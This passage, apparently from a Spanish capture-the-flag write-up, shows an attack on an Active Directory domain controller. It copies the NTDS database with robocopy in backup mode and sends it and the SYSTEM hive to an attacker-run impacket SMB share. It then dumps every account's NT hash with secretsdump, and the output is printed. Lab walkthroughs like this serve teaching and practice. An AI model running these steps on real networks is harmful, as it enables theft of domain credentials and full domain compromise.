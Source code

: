 Con robocopy, puedo copiar el ntds desde la unidad lógica que acabo de crear

```null
robocopy /b z:\windows\ntds . ntds.bak
```

Desde la máquina linux, creo un recurso compartido a nivel de red, para transferirme el ntds y el system y procesarlo de forma local

```null
impacket-smbserver shared $(pwd) -smb2support
```

Desde el Windows, copio los archivos a mi máquina

```null
copy system.bak x.x.x.x\shared\system
copy ntds.bak x.x.x.x\shared\ntds
```

Desde kali, dumpeo todos los hashes NT de los usuarios del directorio activo

```null
impacket-secretsdump -ntds ntds.dit -system system local
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```
